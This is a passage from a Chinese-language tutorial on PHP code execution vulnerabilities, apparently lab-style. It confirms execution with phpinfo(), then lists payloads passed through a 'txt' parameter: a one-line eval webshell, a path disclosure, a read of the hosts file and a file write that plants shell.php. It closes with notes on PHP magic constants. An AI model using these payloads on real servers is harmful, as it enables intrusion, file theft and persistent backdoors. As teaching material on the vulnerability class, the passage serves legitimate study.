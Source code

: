 #### 3.2.1.3. 尝试代码执行

这里我们输入一个phpinfo();，提交执行，看看效果，可以看到能够PHP代码被执行了，并且返回了相应的结果到前端。

![image-20230413145001129](assets/BiIeLAQRS7qk4ZU.png)

## 3.3. 代码执行漏洞利用

[借鉴](https://www.ngui.cc/article/show-519518.html?action=onClick)

### 3.3.1. 利用方式

```php
?txt=@eval($_POST['cmd']);   一句话木马
?txt=print(_FILE_);           获取当前绝对路径
?txt=var_dump(file_get_contents('c:\\windows\system32\drivers\etc\hosts'));  读取文件
?txt=var_dump(file_put_contents($_POST[1],$POST[2]));
1=shell.php&2=<?php phpinfo()?>   写shell
```

### 3.3.2. PHP魔术常量

PHP 向它运行的任何脚本提供了大量的预定义常量，但是在这里有很多的常量是有不同的扩展库定义的。

\_\_LINE\_\_ 显示文件中的当前行号

\_\_FILE\_\_ 显示文件的完整路径和文件名。如果用在被包含文件中，则返回被包含的文件名

\_\_DIR\_\_ 显示文件所在的目录。如果用在被包括文件中，则返回被包括的文件所在的目录
